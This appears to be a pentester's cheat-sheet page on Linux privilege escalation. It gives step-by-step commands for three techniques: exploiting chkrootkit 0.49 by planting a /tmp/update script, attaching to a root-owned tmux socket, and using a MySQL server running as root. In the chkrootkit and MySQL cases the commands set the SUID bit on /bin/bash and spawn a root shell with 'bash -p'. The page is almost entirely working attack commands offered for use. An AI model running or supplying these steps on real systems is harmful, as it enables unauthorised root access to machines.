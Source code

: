 # chkrootkit 0.49

```
Expliot: https://www.exploit-db.com/exploits/33899

cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
id && whoami
```

# Tmux

tmux is a terminal multiplexer for Unix-like operating systems.

It allows multiple terminal sessions to be accessed simultaneously in a single window.

It is useful for running more than one command-line program at the same time.

Tmux Cheat Sheet: https://tmuxcheatsheet.com/

Privilege Escalation

```
tmux list-sessions                        // Any Tmux sessions running as root?
/tmp/tmux-14/default-root                 // Root Tmux Session
tmux -S /tmp/tmux-14/default-root         // Replace Path to Socket (Depending on your results)

OR

tmux list-sessions                        // Any Tmux sessions running as root?
/tmp/tmux-14/default-root                 // Root Tmux Session
tmux -S /opt/.dev/gbm/ attach -t 0        // Replace Path to Session (Depending on your results)
```

# MySQL Running as root

Example 1
```
ps aux | grep root

mysql -u root -p

\! chmod +s /bin/bash
exit
ls -la /bin/bash                          // Verify that the SUID bit is set
/bin/bash -p 
id && whoami
```
